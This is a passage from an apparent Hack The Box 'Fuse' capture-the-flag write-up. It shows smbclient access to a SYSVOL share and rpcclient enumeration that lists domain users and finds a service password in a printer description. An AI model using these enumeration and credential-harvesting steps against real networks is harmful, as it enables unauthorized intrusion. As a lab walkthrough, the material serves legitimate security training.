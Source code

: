 I could have made it better by taking command line arguements but I just went ahead and used it. Just replace the password and run the script and the passwords will be updated. 

After a few tries I was able to read the shares like SYSVOL.

{%highlight text%}
smbclient \\\\fuse.htb\\SYSVOL -U tlavel
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tlavel's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 30 04:59:09 2020
  ..                                  D        0  Sat May 30 04:59:09 2020
  fabricorp.local                     D        0  Sat May 30 04:59:09 2020
{%endhighlight%}

Sadly nothing interesting was residing inside the shares. Next I try connecting with RPCclient.

{%highlight text%}
rpcclient -U tlavel fuse.htb
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Enter WORKGROUP\tlavel's password: 
rpcclient $>
{%endhighlight%}

We do basic enum using commands like enumdomusers, enumprinters, enumdomains etc.
We get a new wordlists of users.

{%highlight text%}
rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
{%endhighlight%}

And a password too!

{%highlight text%}
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
{%endhighlight%}
